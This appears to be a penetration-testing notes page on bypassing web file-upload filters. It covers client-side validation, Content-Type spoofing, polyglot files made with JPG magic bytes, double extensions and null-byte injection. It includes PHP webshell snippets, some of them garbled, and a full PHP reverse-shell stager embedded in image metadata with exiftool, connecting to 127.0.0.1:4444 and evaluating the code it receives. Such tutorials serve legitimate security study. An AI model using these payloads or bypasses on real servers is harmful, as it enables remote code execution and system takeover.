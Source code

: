 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File Uploads

## Absent Validation

Enumerate the technologies used on the server and upload a same-language webshell. This can be done using a tool such as [whatweb](../../../tools/tools/web/whatweb.md) and/or fuzz the `index` extension with a tool like [ffuf](../../../tools/tools/web/dirbusting/fuff.md).&#x20;

{% tabs %}
{% tab title="WhatWeb" %}
```bash
whatweb <URL>
```
{% endtab %}

{% tab title="Fuff" %}
{% code overflow="wrap" %}
```bash
ffuf -u <URL>/index.FUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -c -ac
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Client-side Filters

### Front-end Validation

Any code that runs on the client-side is under the client's control. For example, if the `accept` HTML attribute is used to filter uploads, it can be easily modified using the browser's developer tools. In the example below, we can remove the validation altogether (`onchange=""`) or add the required extension to the list (`.py`).

<figure><img src="../../../.gitbook/assets/file_uploads_onchange.png" alt=""><figcaption><p>Figure 1: Modifying front-end validation.</p></figcaption></figure>

## Server-side Filters

### Type Filters

Two common methods for file content validation are checking the `Content-Type` header and/or checking the actual file content.

#### Content-Type Header

Change the `Content-Type` header to an allowed content type before it reaches the server.

<figure><img src="../../../.gitbook/assets/file_uploads_mime_type_1.png" alt=""><figcaption><p>Figure 2: The <code>text/x-python</code> content type is not allowed.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_mime_type_2.png" alt=""><figcaption><p>Figure 3: Changing the header to <code>image/jpeg</code> type bypassed the filter.</p></figcaption></figure>

#### MIME Type

Polyglot files, i.e., files that different application interpret in different ways, can be created to trick the application. This can be achieve by modifying the file's **magic bytes**, aka _headers_ or _signatures_. For instance, JPG's [magic bytes](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) are `FFD8 FFE0` (Figure 4).

<figure><img src="../../../.gitbook/assets/file_uploads_magic_bytes.png" alt=""><figcaption><p>Figure 4: Checking the magic bytes of a JPG image.</p></figcaption></figure>

The operating system checks the above sequence and recognizes this file as a JPEG image.

{% code overflow="wrap" %}
```bash
file --mime-type google_logo.jpg
google_logo.jpg: image/jpeg
```
{% endcode %}

We can add this sequence in front of a malicious non-JPEG file to trick the OS/application that it is really a JPEG file.

```bash
# check file's content
cat webshell.php
<?php eval(['cmd'];?>
# check file's type
file --mime-type webshell.php
webshell.php: text/x-php
# append JPG's magic bytes to the php code
echo -e "\xFF\xD8\xFF\xE0<?php eval($_GET['cmd'];?>" > polyglot.php
# check file's content
cat polyglot.php
����<?php eval(['cmd'];?>
# check file's type
file polyglot.php
polyglot.php: JPEG image data
```

This can be also be done using tools such as [`hexeditor`](https://www.rogoyski.com/adam/programs/hexedit/). We need to add the required bytes at the start of the file, and then modify them (Figure 5 & 6).

```bash
# added 4 bytes at the start of the file
cat webshell.php
AAAA<?php eval(['cmd'];?>
# open file in hexeditor
hexeditor webshell.php
```

<figure><img src="../../../.gitbook/assets/file_uploads_hexedit_1.png" alt="" width="563"><figcaption><p>Figure 5: Opening the file with hexeditor.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_hexedit_2.png" alt=""><figcaption><p>Figure 6: Modifying the file's magic bytes.</p></figcaption></figure>

### Blacklists

Fuzz for allowed extensions:

1. Upload an allowed file and capture the request.
2. Modify the file extension and save the request as file (Figure 7).
3. Fuzz it with [fuff](../../../tools/tools/web/dirbusting/fuff.md) (Figure 8).

<figure><img src="../../../.gitbook/assets/file_uploads_fuzz_req.png" alt=""><figcaption><p>Figure 7: Modifying the HTTP request andexporting it as a file.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_fuff.png" alt=""><figcaption><p>Figure 8: Fuzzing the file extensions with ffuf.</p></figcaption></figure>

### Whitelists

#### Double & Reverse Extensions

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar`.  Others, might require for the file name to end with an allowed extension so we will have to reverse them (`webshell.phar.jpg`) (Figure 9).

<figure><img src="../../../.gitbook/assets/file_uploiads_double_extensions.png" alt=""><figcaption><p>Figure 9: Bypassing the extension filter using double extensions.</p></figcaption></figure>

In case we can use the **reverse double extension** method, the file will be upload but it might not be able to execute. Instead it can be served as a direct download (Figure 10) or as a page (Figure 11).

<figure><img src="../../../.gitbook/assets/file_uploads_dl.png" alt=""><figcaption><p>Figure 10: The webshell script treated as a direct download.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_mime_type_3.png" alt=""><figcaption><p>Figure 11: The webshell script served as a file.</p></figcaption></figure>

#### Null Byte Injection

We can manipulate the file-handling system by leveraging the fact that the null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 12), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><img src="../../../.gitbook/assets/file_uploads_null_byte.png" alt=""><figcaption><p>Figure 12: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Metadata Injection

We can inject our payload into an image's metadata and then call the image via an LFI vulnerability ([source](https://spencerdodd.github.io/2017/03/05/dvwa\_file\_upload/)).

{% code overflow="wrap" %}
```bash
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/file_uploads_metadata_injection.png" alt=""><figcaption><p>Figure 13: Injection a payload into an image's metadata.</p></figcaption></figure>

